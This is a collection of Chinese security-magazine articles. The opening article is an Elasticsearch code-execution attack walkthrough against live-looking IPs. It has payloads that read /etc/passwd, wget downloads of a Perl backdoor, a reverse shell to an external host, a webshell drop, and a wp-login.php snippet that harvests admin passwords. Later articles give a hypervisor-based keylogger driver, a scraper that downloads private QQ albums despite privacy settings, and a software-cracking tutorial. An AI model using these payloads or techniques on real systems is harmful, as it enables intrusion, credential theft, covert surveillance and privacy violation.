curl -XPOST 'http://localhost:9200/_search?pretty' -d '
{
  "size": 1,
  "query": {
    "filtered": {
      "query": {
        "match_all": {}
      }
    }
  },
  "script_fields": {
    "/etc/hosts": {
      "script": "import java.util.*;\nimport java.io.*;\nnew Scanner(new File(\"/etc/hosts\")).useDelimiter(\"\\\\Z\").next();"
    },
    "/etc/passwd": {
      "script": "import java.util.*;\nimport java.io.*;\nnew Scanner(new File(\"/etc/passwd\")).useDelimiter(\"\\\\Z\").next();"
    }
  }
}
'
```

##### 2. 修复方法

关掉执行脚本功能，在配置文件 `elasticsearch.yml` 里为每一个节点都加上：  
`script.disable_dynamic: true`。

## 通过 Perl 反弹 shell

##### 1. 准备工作

需要在公网 IP 准备一个 `.pl` 的反弹脚本，例如 `back.pl`，可以将脚本文件伪装为 jpg 文件上传到网站后下载，例如 `www.antian365.com/lab/linux0day/back.pl.txt`，然后依次执行以下命令即可。

- 本地通过 nc 监听端口：`nc -vv -l -p 80`
- 被攻击服务器下载 back.pl 脚本：

```bash
python ElasticSearch.py http://www.antian365.com:9200/ "/usr/bin/wget www.antian365.com/lab/linux0day/back.pl.txt -O /tmp/back.pl"
```

- 执行后门反弹命令：

```bash
python ElasticSearch.py http://www.antian365.com:9200/ "/usr/bin/perl /tmp/back.pl 123.123.123.123 80"
```

说明：

- `www.antian365.com` 为被攻击目标的 IP 或域名，IP 地址 `123.123.123.123` 为公网独立 IP，80 端口为该服务器未开放端口。
- 有部分服务器由于未安装 Perl 环境，因此有可能执行命令失败。

##### 2. 搜索目标对象

通过 http://www.zoomeye.org/ 或者 shodanhq.com 搜索 “ElasticSearch” 关键词，直接访问 http://www.zoomeye.org/search?q=ElasticSearch&t=host 即可获取结果。在该结果中可以看到各个国家使用该软件的分布情况。随机选择一个 IP 进行测试，本例选择第一个 IP 地址 http://192.241.225.207/，同时单击 IP 地址右上角的一个小图框链接地址，例如打开 http://192.241.225.207:9200/ 进行访问，确认该 IP 地址是否存活。如图 1 所示。


图 1 搜索目标对象

##### 3. 执行命令

直接执行：

`python ElasticSearch.py http://192.241.225.207/ "/usr/bin/wget www.antian365.com/lab/linux0day/back.pl.txt -O /tmp/back.pl"`  

但反馈结果为 “HTTP Error 500: Internal Server Error”，如图 2 所示。再次使用 Firefox 便携版本进行测试，输入目标地址 `http://192.241.225.207:9200/_search?pretty`，在 Post data 中输入代码：

```json
{"size":1,"script_fields":{"test#":{"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang":"groovy"}}}
```

其结果如图 3 所示，表明该漏洞已经修复或者不可用。


图 2 执行命令


图 3 再次测试漏洞是否可用

通过测试多个搜索结果，找到一个还存在漏洞的 IP 地址 `192.241.222.40`。在 0Day 出来的第一时间基本每个目标都能执行，每多一分钟就减少一个。直接执行以下代码，成功运行，无任何结果显示，表明文件已下载到服务器本地成功。

```bash
python ElasticSearch.py http://192.241.222.40:9200/ "/usr/bin/wget www.antian365.com/lab/linux0day/back.pl.txt -O /tmp/back.pl"
```

执行以下命令，成功后会显示 “Perl Connect-back Backdoor、Auther:Maple-x”，表明 shell 执行成功，如图 4 所示。

```bash
python ElasticSearch.py http://192.241.222.40:9200/ "/usr/bin/perl /tmp/back.pl 124.123.122.11 80"
```

在本地监听端口，过几秒钟就会反弹 shell 回来，执行 `ifconfig` 命令，如图 5 所示，确认反弹 shell 成功，后续操作就任由发挥了！


图 4 反弹 shell 命令成功


图 5 成功获取 shell

## 获取网站 webshell 权限

Elasticsearch 在一些大型企业内部往往部署得比较多，因此在获取某内网权限后，进一步渗透就非常有意义。上面分析了通过 Perl 脚本来获取反弹 shell，反弹 shell 具有一定时效性，下面就非 Perl 方面的渗透进行探讨。

### 1. 通过 shodanhq 搜索引擎搜索关键字 “Elasticsearch”

首先在网站 shodanhq.com 注册一个用户，注册成功后需要通过邮箱激活，激活后即可使用。在搜索框中输入关键字 “Elasticsearch” 进行搜索，如图 6 所示。结果以 top countries 显示查询记录，在早期搜索结果中中国排名第一，后面以美国部署的服务器较多。在结果列表中随机选择一个 IP 地址，在本例中选择的是国外的 IP。


图 6 搜索关键词 “ElasticSearch”

##### 2. 通过 Firefox 便携版本进行漏洞测试

在 Firefox 便携版本输入地址 `http://192.121.xxx.xxx:9200/_search?pretty`，然后单击 “Load Url”，如图 7 所示，在 Post Data 中输入以下代码：

```json
{"size":1,"script_fields":{"test#":{"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang":"groovy"}}}
```

该代码的目的是读取 Linux 操作系统中的 `/etc/passwd` 文件内容，如果存在漏洞则会读取 passwd 文件内容，反之则说明该漏洞不存在。


图 7 测试漏洞是否存在

##### 3. 查询敏感文件

在 Post data 中修改 `exec("cat /etc/passwd")` 内容为 `exec("locate *.php")`、`exec("locate *.sql")`、`exec("locate *.conf")` 等以获取敏感文件信息，如图 8 所示，表明该服务器可能使用 PHP，且 CMS 系统可能为 WordPress。


图 8 寻找系统敏感信息

使用以下代码直接获取 `wp-config.php` 文件所在路径 `/usr/share/nginx/xxxxxxxxxxxxx/wp-config.php`，如图 9 所示。

```json
{"size":1,"script_fields":{"test#":{"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\" locate wp-config.php \").getInputStream())).readLines()","lang":"groovy"}}}
```


图 9 获取 wp-config.php 的路径

##### 4. 定位网站和真实路径

通过执行 `cat /usr/share/nginx/xxxxxxxxxxxx/wp-config.php` 来读取该文件内容，如图 10 所示，获取 MySQL 数据库 root 账号和密码以及网站域名 `xxxxxxxxxxxx.com` 等信息。通过查看网站所在根目录，还发现有 MySQL 文件备份，通过 flashget 下载工具将其下载到本地，如图 11 所示。


图 10 获取网站域名等信息


图 11 下载数据库文件

### 5. 获取 webshell

```bash
wget -O /usr/share/nginx/xxxxxxa2/__MACOSX/oxxxxxxxxa/wp-content/uploads/my.php http://www.antian365.com/data/cache/2.txt
```

将 webshell 下载到本地服务器中的 `/usr/share/nginx/xxxxxx2/__MACOSX/xxxxxxxxxxxx/wp-content/uploads` 目录，webshell 地址 `http://ocXXXXxx.com/wp-content/uploads/my.php`，通过中国菜刀进行连接，如图 12 所示，成功获取 webshell 权限。


图 12 获取 webshell 权限

## 6.讨论

在本例中通过命令执行漏洞下载了 mysql 数据库文件，通过查看该文件知道了 wordpress 管理员的密码等信息，如图 13 所示，可以对该密码进行破解，通过破解的密码和用户进行登录，再通过后台来提权，也可以轻松获取 webshell 后门。


图 13 获取 wordpress 后台管理员密码等信息

还可以在 wp-login.php 文件中加入密码记录代码，在 if ( force_ssl_admin() && ! is_ssl() ) 代码结束处加入记录代码，如图 14 所示，加入后的代码如下：

```c
// Redirect to https login if forced to use SSL
if ( force_ssl_admin() && ! is_ssl() ) {
    if ( 0 === strpos($_SERVER['REQUEST_URI'], 'http') ) {
        wp_redirect( set_url_scheme( $_SERVER['REQUEST_URI'], 'https' ) );
        exit();
    } else {
        wp_redirect( 'https://' . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'] );
        exit();
    }
}
$userip=$_SERVER['REMOTE_ADDR'];
$username_password=$_POST['log']."----xxxxx----".$_POST['pwd']."..."."userip:".$userip."\r\n";
$shellowp=fopen('./wp-content/plugins/d.txt','a+');
$write=fwrite($shellowp,$username_password);
```

定期访问 http://www.antian365.com/wp-content/plugins/d.txt，即可获取管理员登录密码等信息。


图 14 记录 wordpress 密码代码

（完）

### 虚拟化与键盘记录的那些事儿

文/图 Naylon

Intel-VT（Virtualization Technology，虚拟化技术）的产生是为了解决软件虚拟化解决方案在可靠性、安全性和性能上的不足，亦可以认为是硬件虚拟化技术。而近些年，VT 在安全领域内也体现出了很重要的研究价值。

应用 Intel-VT 可以在一台计算机内运行多个操作系统（虚拟机），并可以把当前正在运行的操作系统设置为虚拟机。由于所有虚拟机的行为都受到 VMM 的监管，所以如果把当前操作系统也当作是虚拟机的话，便能对其进行深度的行为监控。VMCS（Virtual Machine Control Section，虚拟机控制环境块）中有一些控制字段，用来标示 VMM 对虚拟机的哪些行为感兴趣，如果将这些字段设置为有效，那么当虚拟机触发执行这些特定指令时，会产生 VMEXIT 事件，并由 GuestOS 进入 VMM，即从 non-root 模式切换到 root 模式，程序执行的流程也随即进入了 VMM 提供的 VmExit Handler 例程，在该回调例程中，VMM 可以读写 GuestOS 的所有数据，进行一定的处理后，例程结束，并产生 VMENTRY 事件使 CPU 重新陷入 non-root 模式，GuestOS 由此继续执行。如图 1 所示。


图 1

也许上面的叙述有点儿绕舌，我们用一个通俗的比喻来讲，就是 VT 能实现对指令的“HOOK”，因此 VT 在安全领域内有着很大的施展空间。本文以键盘记录为例，展示 VT 的指令监控过程。

#### 搭建调试环境

由于 VT 相关的指令都需要 Ring0 权限，所以实现虚拟化核心功能的代码需要封装为驱动程序，并加载到内核里执行，故本文的代码都需要由 WDK 进行编译。

研究 VT 最好的学习资料是 Invisible Things Lab 在 Black Hat 大会上发表的开源代码 NewBluePill（后文简称 NBP），该项目实现了一个基础的虚拟化引擎，且逻辑清晰、体积较小，可谓是麻雀虽小五脏俱全。在网上可以找到该项目的最新版本是 NewBluePill-0.32-Public，但这个公开的版本存在很多问题，仔细读过其代码后，可以感觉到有很多 BUG 明显是人为留下的，目的应该是防止伸手党直接用代码去做坏事。不过我们若想深入学习 VT，自然要将 NBP 编译后进行调试，所以首先得把作者挖的坑填了。

##### 1）NBP 驱动卸载死机

公开版的驱动只能被加载，一旦卸载驱动，则会造成死机。因为卸载必须在 VMM 的 root 模式下进行，而当 DriverUnload 被调用时，系统仍处于 non-root 模式，所以必须通过 Hypercall 的方法陷入 VMM，把卸载驱动的任务交给 VMM。查看 NBP 的代码可知，Hypercall 实现在 hypercall.c 文件里，DriverUnload 最终会调用到 HcMakeHypercall 来发起 Hypercall 陷入 VMM，但是 VMM 内却没有对 VMCALL 指令产生的 VMEXIT 作处理，而是直接返回结果，表示 VMEXIT 已处理完毕，实际上却没有在 VMM 执行相应的卸载流程，因此系统仍在虚拟机中运行，随后 DriverUnload 会释放资源，使虚拟机的状态无法维持，进而导致出错死机。弄清楚了原理，我们便明了了，如想让它正常卸载，只需要修改 vmxtraps.c 里的代码，让它按合适的方法处理 Hypercall 以便执行 VMM 层的卸载代码即可。

```c
[vmxtraps.c]
...
// 为所有 VM 指令造成的 VMExit 设置一个无用的处理函数，VMCALL 则作为 Hypercall 处理
for (i = 0; i < sizeof(TableOfVmxExits) / sizeof(ULONG32); i++) {
    if (TableOfVmxExits[i] == EXIT_REASON_VMCALL) {
        if (!NT_SUCCESS(Status = TrInitializeGeneralTrap(Cpu, EXIT_REASON_VMCALL, 0,
            // length of the instruction, 0 means length need to be get from vmcs later.
            VmxDispatchHypercall, &Trap))) {
            KdPrint(("VmxRegisterTraps(): Failed to register VmxDispatchHypercall with status 0x%08hX\n", Status));
            return Status;
        }
    } else {
        if (!NT_SUCCESS(Status = TrInitializeGeneralTrap(Cpu, TableOfVmxExits[i], 0,
            // length of the instruction, 0 means length need to be get from vmcs later.
            VmxDispatchVmxInstrDummy, &Trap))) {
            KdPrint(("VmxRegisterTraps(): Failed to register VmxDispatchVmon with status 0x%08hX\n", Status));
            return Status;
        }
    }
}
...
TrRegisterTrap(Cpu, Trap);
}
...
```

##### 2）断点触发时死机

一旦开启 VMLAUNCH 以后，无法在 VMM 的代码上下断点，比如 bp newbp!VmxVmexitHandler，如果断点被触发的话，虚拟机就失去了响应，Windbg 也定在那里不动了。经过实验发现这个问题的源头是 NBP 的内存隐藏模型，我们只要取缔掉 NBP 自己的内存管理系统，便可以用 Windbg 在 VMM 的代码上下断点调试了。

NBP 的内存管理主要实现在 paging.c 里，观察 NBP 分配内存使用的自定义函数 MmAllocatePages，可以看出它首先用 ExAllocatePoolWithTag 申请内存，然后会对页做一些处理，以实现自己的内存管理。我们将其对内存的多余操作删去，仅让它单纯地对 ExAllocatePoolWithTag 进行包装（MmAllocateContiguousPages 和 MmAllocateContiguousPagesSpecifyCache 同理）。

```c
[paging.c]
...
PVOID NTAPI MmAllocatePages (
    ULONG uNumberOfPages,
    PPHYSICAL_ADDRESS pFirstPagePA
)
{
    PVOID PageVA;
    PHYSICAL_ADDRESS PagePA;
    if (!uNumberOfPages)
        return NULL;
    PageVA = ExAllocatePoolWithTag (NonPagedPool, uNumberOfPages * PAGE_SIZE, ITL_TAG);
    if (!PageVA)
        return NULL;
    RtlZeroMemory (PageVA, uNumberOfPages * PAGE_SIZE);
    if (pFirstPagePA)
        *pFirstPagePA = MmGetPhysicalAddress (PageVA);
    return PageVA;
}
...
```

之后要更改 VmxSetupVMCS 中设置 VMCS.CR3 的部分，让 GuestOS 使用当前系统的页目录指针，而非 NBP 自己的页目录。

```c
[vmx.c]
...
VmxWrite (HOST_CR3, RegGetCr3 ());
...
```

同时删掉 HvmSetupGdt 函数中映射任务状态段的一句代码：

```c
[hvm.c]
...
//MmMapGuestTSS64 ((PTSS64) GuestTssBase, GuestTssLimit);
...
```

最后还要把 DriverEntry 中 MmInitManager 之类的调用删掉，因为不再使用 NBP 自己的内存管理系统了，所以卸载时也不需要 MmShutdownManager。

经过如上步骤将 NBP 的内存隐藏取消后，便能使用 Windbg 在 VMM 代码上下断了，如图 2 所示。


图 2

值得一提的是，用 Windbg 调试 VT 并不是一个靠谱的方法，因为 Windbg 的实现原理是与 Windows 内核调试引擎交互，它的实现依赖于系统代码，而启动 VT 后，系统已经进入了 non-root 模式，成为了虚拟机，它本身的代码可能也会受到影响。但经过测试，用 Windbg 的确可以在有限的情况下调试 NBP，并解决诸多问题，效率远高于 DbgPrint 调试法。另外，如果要在虚拟机里调试 VT，则必须使用 VMWare 10 及以上版本，并在 CPU 选项中勾选“虚拟化 Intel VT-x/EPT 或 AMD-V/RVI(V)”，如图 3 所示。


图 3

以上工作做完后，便可以打开 WDK 控制台，切换到 NBP 目录，执行 build_code 来编译 NBP 了，如图 4 所示。


图 4

#### 键盘记录

准备工作做充分了，下面便展示一个应用 Intel-VT 实现的键盘记录，其实现依赖于 NBP 的 VMM 引擎。

- 1）实现原理

根据键盘输入的原理可知，PS/2 键盘 8042 控制芯片是从 IO 端口中读出按键扫描码的，在 x86 体系下，对外部 IO 端口的读写操作是通过 in/out 指令来完成的，而这两个指令可以由 VMM 所监控。因此我们可以更改 VMCS 里的字段，设置在执行 in 指令时触发 VMEXIT，并将执行权交给 VMM，VMM 判断所读取的端口是否为与键盘 IO 相关的 0x60 或 0x64 号端口，如果是，则读出其中的内容，便成功地得到了按键信息，处理完毕后产生 VMENTRY 返回 GuestOS，再让系统正常执行即可，整个过程对 GuestOS 来说都是透明的。

- 2）具体操作

首先需要通过 CPU 提供的 VMCLEAR、VMPTRLD、VMREAD、VMWRITE 等指令对 VMCS 的标志进行设置（在 NBP 中被封装为 VmxRead、VmxWrite 等函数），表明要对 IO 指令进行监控。

```c
[vmx.c]
Interceptions = 0;
Interceptions |= CPU_BASED_ACTIVATE_IO_BITMAP;
VmxWrite (CPU_BASED_VM_EXEC_CONTROL, VmxAdjustControls (Interceptions, MSR_IA32_VMX_PROCBASED_CTLS));
```

VMCS 初始化完毕后，再进行一系列的设置后对每个 CPU 执行 VMLAUNCH 指令开启虚拟化。

```c
// __asm BYTE 0Fh, 01h, 0C2h（__asm VMLAUNCH）
VmxLaunch ();
```

产生 VMEXIT 后陷入 VmExit Handler，这里便能获取到按键信息了，本文仅将按键码打印出来作为演示。

```c
static BOOLEAN NTAPI VmxDispatchIoAccess (
    PCPU Cpu,
    PGUEST_REGS GuestRegs,
    PNBP_TRAP Trap,
    BOOLEAN WillBeAlsoHandledByGuestHv
)
{
    ULONG32 exit_qualification;
    ULONG32 port, size;
    ULONG32 dir, df, vm86;
    static ULONG32 ps2mode = 0x1;
    ULONG64 inst_len;

    if (!Cpu || !GuestRegs)
        return TRUE;
    inst_len = VmxRead (VM_EXIT_INSTRUCTION_LEN);
    if (Trap->General.RipDelta == 0)
        Trap->General.RipDelta = inst_len;
    exit_qualification = (ULONG32) VmxRead (EXIT_QUALIFICATION);
    init_scancode ();
    // IO 端口
    if (CmlsBitSet (exit_qualification, 6))
        port = (exit_qualification >> 16) & 0xFFFF;
    else
        port = ((ULONG32) (GuestRegs->rdx)) & 0xFFFF;
    //_KdPrint (("IO 0x%x IN 0x%x %c \n", port, GuestRegs->rax, scancode[GuestRegs->rax & 0xff]));

    size = (exit_qualification & 7) + 1;
    dir = CmlsBitSet (exit_qualification, 3);          /* direction */
    if (dir) {
        // 输入 IN
        GuestRegs->rax = CmlOIn (port);
        if (port == 0x64) {
            // 读取状态字，判断是否有按键消息
            if (GuestRegs->rax & 0x20)
                ps2mode = 0x1;                // 鼠标事件
            else
                ps2mode = 0;                  // 键盘事件
        } else if (port == 0x60 && ps2mode == 0x0 && (GuestRegs->rax & 0xFF) < 0x80) {   // KeyUp = KeyDown + 0x80

            // 如果键盘按下，读出扫描码
            _KdPrint (("IO IN Port: %x   scancode: %x    Char: %c \n", port, GuestRegs->rax & 0xFF, scancode[GuestRegs->rax & 0xFF]));
            //GuestRegs->rax =0;     // 拦截按键，不直接返回给 Guest
#ifdef _X86_
            //Cpu->Vmx.GuestVMCS.GUEST_ES_SELECTOR = 0;
#endif
        }
    } else {
        // 输出 OUT
        if (size == 1)
            CmlOOutB (port, (ULONG32) GuestRegs->rax);
        if (size == 2)
            CmlOOutW (port, (ULONG32) GuestRegs->rax);
        if (size == 4)
```

```c
CmlOOutD(port, (ULONG32)GuestRegs->rax);
_KdPrint(("IO 0x%x OUT 0x%x size 0x%x\n", port, GuestRegs->rax, size));
}

return TRUE;
}
```

加载驱动后，在键盘上输入 KEYTEST，效果如图 5 所示。


图 5

本文的开发系统是 Win7 x64，截图上的测试系统（虚拟机）是 Win2k3 x64。实际代码在 Windows XP、Windows 2003 和 Windows 7 上都测试通过，可以正常运行，且支持 x86/x64 两种架构。因为这个键盘记录的原理是拦截 IN 指令，所以只对 PS/2 键盘有效。USB 键盘则不能用这种方法，但仍可以采用另一种思路来实现：用 VT 拦截键盘中断并处理，但其中细节相对复杂，本文主要目的在于介绍 VT 的使用方法并以 NBP 做演示，故尚未对 USB 键盘有深入研究。

### 编写 Python 爬虫分析数据爬取

文/图 黄澄 马智超（DesertEagle）

信息时代，数据就是宝藏。数据的背后隐含着无穷的宝藏，这些宝藏也许就是信息量所带来的商业价值，而大数据本身也将成为桌面上的筹码。

说了那么多数据的重要性，本篇文章所提到爬取的数据，不包括超过传统数据库系统处理能力的数据，而是从一个简单的爬虫程序上讲起，讲如何编写属于自己的爬虫，获取想要的简单数据，并让程序对数据进行分析，进而得到我们想要的信息。

#### 逻辑分析

编写爬虫首先要有个简单的逻辑思路，无非是发送请求 -> 加载页面 -> 获取页面的信息 -> 提取想要的数据 -> 数据可视化、以表格的形式呈现，或者根据需求批量下载到本地。

所以这里我们不妨写两个工程程序进行测试：一是批量数据下载到本地，我们可以把腾讯服务器里用户 QQ 空间中的相册批量下载下来，寻找规律随机下载，或利用一些接口从服务器上爬取；二是对特定数据爬取，最好以可视化表格的形式表现出来，我们可以采集网站上一些数据，然后以表格显示。

#### 案例一：代码分析

现在我们开始写代码，用 Python 来实现这一功能。首先是发送请求信息。Python 的 urllib 模块提供了读取 Web 页面数据的接口，我们可以读取万维网、FTP 上的数据。用 `urllib.urlopen()` 方法用于打开一个 URL 地址，用 `read()` 方法可以读取 URL 上的数据。其间对字符串的处理自定义了函数，为获取想要的数据，编写了正则表达式。简单基础的 Python 编程，附上核心代码。

```python
##### 自定义函数获取指定两个字符串之间的数据
def sfinds(start_str, end, html):
    start = html.find(start_str)
    if start >= 0:
        start += len(start_str)
        end = html.find(end, start)
        if end >= 0:
            return html[start:end].strip()

##### 自定义函数 getHtml() 用来读取网页数据
def getHtml(url):
    p = urllib.urlopen(url)
    html = p.read()
    return html

##### 自定义函数构造正则表达式来获取网络图片
def getImg(html):
    reg = r'<url>[^<]*[u]*[r]*[l]*[>]*</url>'
    image = re.compile(reg)
    imglist = re.findall(image, str(html))
    return imglist
```

有了以上定义的基本函数，就可以进行很多实战测试了。利用腾讯已有的一些接口来访问服务器空间上保存的数据，下面就是一个网络爬虫爬取数据、相册批量下载的测试效果图，可以下载任意 QQ 的相册，即使对方设置了权限限制。


图 1 软件打开效果图

接下来输入我们要下载相册的 QQ 号，可以看到程序会自动获取相册信息：


图 2 相册信息获取截图

然后我们的爬虫系统会自动下载保存图片，我们只需要耐心等待。


图 3 照片下载成果后提示截图

出去转了一圈，回头再来看的时候所有相册已经下载完毕，到程序文件夹里可以看到下载的照片。


图 4 下载的图片

接着又测试了一个 QQ 号，效果如图。


图 5


图 6

#### 案例二：逻辑分析

作为学习来讲，在案例二中我们涉及 HTML 数据解析。欧尼酱这个网站我之前没有听过，一次偶然发现里面有首还不错的日系音乐，于是决定拿这个网站为例子，爬取 O 站里部分音乐信息。首先打开一个页面，查看其源代码，如图 7 所示。


图 7

从这个源代码中我们可以看到 `<div class="content markitup-box">` 这个 HTML 标签中保存的是歌曲的名字，我们可以获取所有这个标签中包含的内容，以此来爬取页面所推荐的情人节日漫歌曲名字。

我们可以先获取页面的 HTML 数据信息，然后通过 class 或者 ID 查找特定的标签，接着对标签的内容进行获取、列表显示，核心代码如下：

```python
##### 首先还是读取页面信息
def getHtml(url):
    p = urllib.urlopen(url)
    html = p.read()
    return html
```

接着对读取的信息进行处理。我们知道我们爬到的信息是有大幅度的 HTML 标签，我们要对数据进行 HTML 解析。对此我们有很多方法：HTMLParser 模块、Beautiful Soup、SGMLParser，这里我们用 SGMLParser，理由不多讲了，好用。核心代码如下：

```python
##### 定义类
class GetIdList(SGMLParser):
    def start_div(self, attrs):
        if self.flag == True:
            self.verbatim += 1
            return
        for k, v in attrs:
            if k == 'class' and v == 'content markitup-box':
                self.flag = True
                return

    def end_div(self):
        if self.verbatim == 0:
            self.flag = False
        if self.flag == True:
            self.verbatim -= 1
```


图 8

通过编写这两个小爬虫，我逐渐体会到了爬虫的一些作用，对其的一些巧妙应用。多线程的处理有时候会大大提高做事的效率，而一个功能强大的爬虫系统所能做的远不止这些。

### Android 实现文件非对称加密存储

文/图 耿靓

在上一篇文章实现了 Android 通过证书文件进行安全传输的基础上，这篇文章讲解实现在 Android 中通过非对称加密算法进行文件保存。如何生成证书请参见“自定义证书 Android 实现 HTTPS 通信”文章所述。

在 Android 中，通过 KeyStore 加载证书文件，并获取相应的 PublicKey，通过 Cipher 设置对应的数据填充方式。此处要注意，填充的方式要与解密的方式相对应，否则会抛出异常。主要实现代码如下：

```java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);
    Button btnSearch = (Button) findViewById(R.id.button1);
    btnSearch.setOnClickListener(this);
}

@Override
public boolean onCreateOptionsMenu(Menu menu) {
    getMenuInflater().inflate(R.menu.main, menu);
    return true;
}

@Override
public void onClick(View v) {
    try {
        PublicKey publicKey = loadRSAPublicKey();
        String strText = "这里是机密信息！！！";
        byte[] bsText = strText.getBytes("UTF-8");
        byte[] bsEncode = encryptData(bsText, publicKey);
        saveFile(bsEncode);
    } catch (NoSuchAlgorithmException e) {
        e.printStackTrace();
    } catch (CertificateException e) {
        e.printStackTrace();
    } catch (NotFoundException e) {
        e.printStackTrace();
    } catch (KeyStoreException e) {
        e.printStackTrace();
    } catch (IOException e) {
        e.printStackTrace();
    }
}

private void saveFile(byte[] bsData) throws IOException {
    File file = new File(Environment.getExternalStorageDirectory(), "encryptData.dat");
    FileOutputStream fileOutputStream = new FileOutputStream(file);
    fileOutputStream.write(bsData);
    fileOutputStream.close();
}

private PublicKey loadRSAPublicKey() throws NoSuchAlgorithmException,
        CertificateException, NotFoundException, IOException, KeyStoreException {
    KeyStore ts = null;
    ts = KeyStore.getInstance("BKS");
    ts.load(getResources().openRawResource(R.raw.mycert), "123456".toCharArray());
    Enumeration<String> enumAliases = ts.aliases();
    String strAliases = enumAliases.nextElement();
    PublicKey publicKey = ts.getCertificate(strAliases).getPublicKey();
    return publicKey;
}

/*
 * 数据加密
 */
public static byte[] encryptData(byte[] data, PublicKey publicKey) {
    try {
        Cipher cipher = Cipher.getInstance("RSA/ECB/PKCS1Padding");
        cipher.init(Cipher.ENCRYPT_MODE, publicKey);
        return cipher.doFinal(data);
    } catch (Exception e) {
        e.printStackTrace();
        return null;
    }
}
```

生成完成加密文件后，我们通过 adb 将加密的文件导入到电脑中。

**adb pull /sdcard/encryptData.dat c:\encryptData.dat**

在 PC 端，通过一个 C# 程序进行解密，并显示出被加密的数据。通过 `X509Certificate2` 加载 pfx 证书文件，并获得私钥对象 `RSACryptoServiceProvider`，将私钥对象赋予 `RSACryptoServiceProvider` 对象后，通过调用 `Decrypt` 获得解密后的 byte 数组。最后需要对 byte 数组进行 UTF-8 编码成字符串后进行显示。主要代码如下：

```csharp
static void Main(string[] args)
{
    string strCertFileFullName = @"D:\cert\myCert.pfx";
    string strFileName = @"c:\encryptData.dat";
    FileStream fs = new FileStream(strFileName, FileMode.Open, FileAccess.Read);
    byte[] encryptedData = new byte[fs.Length];
    fs.Read(encryptedData, 0, encryptedData.Length);
    fs.Close();
    X509Certificate2 prvcrt = new X509Certificate2(strCertFileFullName, "", X509KeyStorageFlags.Exportable);

    RSACryptoServiceProvider prvkey = (RSACryptoServiceProvider)prvcrt.PrivateKey;
    byte[] decryptedData = RSADecrypt(encryptedData, prvkey.ExportParameters(true), false);

    prvkey.Clear();
    Console.WriteLine("解密出的信息：\n{0}", Encoding.UTF8.GetString(decryptedData));
}

static public byte[] RSADecrypt(byte[] DataToDecrypt, RSAParameters RSAKeyInfo, bool DoOAEPPadding)
{
    try
    {
        byte[] decryptedData;
        using (RSACryptoServiceProvider RSA = new RSACryptoServiceProvider())
        {
            RSA.ImportParameters(RSAKeyInfo);
            decryptedData = RSA.Decrypt(DataToDecrypt, false);
        }
        return decryptedData;
    }
    catch (CryptographicException e)
    {
        Console.WriteLine(e.ToString());
        return null;
    }
}
```

执行结果如图 1 所示。


图 1

（完）

### 无间之道：深入剖析代码破解软件

文/图 贾志明

在 OD（OllyDbg）中，爆破是最初级的解决方案，不到万不得已，我们不直接修改 JNZ 通关。因为这样操作的话，我们就享受不到破解、逆向的真正乐趣了。了解程序背后按照剧情发展经常会出的一些走法，逆向程序的算法，才能体会逆向的真正乐趣！为了更好地模拟破解场景，这里使用一个比较有代表性的程序。通过一步一步的测试，锻炼测试者的耐心！

试验软件：MrBills.exe（扫描仪软件）。

#### 查找提示信息

首先，运行软件，界面如图 1 所示。


图 1

记住这句注册失败的提示信息，因为它可以作为一个关键的字符串来寻找。未注册版的软件一般会限制功能，注册完成后才让你使用所有功能。用 OD 打开这个可执行文件，开始分析。

#### 查找字符串

在 CPU 窗口中单击右键，选择“查找所有参考文本字符串”，在查找注册失败的提示信息中，输入“You have entered an xxxxxx”（注意把进度条拉至文本子串最上方，因为它是从上往下查找的）。查找结果如图 2 所示。

图 2

双击该字符串，跟随到 CPU 窗口代码处，如图 3 所示。

图 3

在这里我们找到了上方一个突破口：跳转 jnz。这里如果 jnz 跳转的话，就直接来到了注册成功处：“Thank you for registering!”，所以它是一个关键跳转，如图 4 所示。

图 4

#### 火眼金睛：分析关键节点信息

下面，进行几个关键信息分析。

第一，跳转 jnz 的条件判断是由谁引起的呢？

仔细分析后，我们发现，是在它上方的 test al, al。因为这句会改变寄存器里标志位 ZF 的值（0 或 1）。

test 进行的是逻辑与运算（and），如果两个 al 为 1 的话，结果为 1；两个为 0 的话，结果为 0。它不改变 al 的值，只会修改标志位。

此时，通过 eax 寄存器可以看出 al 为 0，所以 ZF 标志位为 1（运算结果为 0 时，标志位 Z 置 1），进而 jnz 不会跳转，即来到注册失败处。

由此，我们就可以推理出，想办法把 al 的值由 0 变为 1，就可以实现关键跳转，进而使软件注册成功了！！

第二，al 的值在哪里被修改过呢？或者说是谁决定了 al 的值呢？

可以看到在 test 语句上方有一个 call，我们在 Win32 汇编语言里学过：call 调用函数进行一堆操作之后的返回值都存放在 EAX 里，也就是说这个 call 会影响到 al 的值。（al 是 eax 的最低位/最后一个字节，eax 是 32 位的，al 是 8 位）

那么这个 call 就是需要进入分析的，在该处下断点，重载后写入注册信息触发该断点，接着进入这个 call 里。如图 5 所示。

图 5

进入之后，不要盲目地按 F8 过，先观察下程序内容（很多朋友就一直 F8 走，寄存器也不看，下面地址也不看，进行了什么样的逻辑关系也不看，就是直接走，然后就迷路了！）

观察之后，我们发现，又出现了两个相连 call 和 test。这两个 call 也会影响到我们关注的 al 的值，所以注释上【需进入】，方便之后进入分析。下面进入第二个 call 里，如图 6 所示。

图 6

